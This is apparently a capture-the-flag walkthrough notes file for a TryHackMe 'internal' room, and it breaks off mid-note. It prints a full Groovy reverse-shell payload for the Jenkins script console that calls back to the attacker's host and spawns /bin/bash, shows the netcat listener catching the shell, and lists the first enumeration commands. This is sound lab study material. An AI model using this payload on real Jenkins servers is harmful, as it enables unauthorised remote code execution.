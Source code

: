 # one method of doing it is creating a new job and building it
        # I have tried this before (doesnt mean I cannot again) but I will therefore try to do it another way:

# method (https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6):
        # 1 manage jenkins + under "tools and actions" script console
        # 2 paste revsh.groovy:
                String host="10.11.59.68";
                int port=4445;
                String cmd="/bin/bash";
                Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
        # 3 nc listener for port 4445
        # 4 run the script:
                (kali㉿kali)-[~/THM/practice/internal]
                └─$ nc -lvnp 4445                                                                                       1 ⨯
                listening on [any] 4445 ...
                connect to [10.11.59.68] from (UNKNOWN) [10.10.79.251] 55264

# some manual enumeration shows we do not have a lot of privileges:
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins

# remembering from earlier there was some interesting info in the /opt folder:
cd opt
ls
note.txt
cat note.txt
Aubreanna,
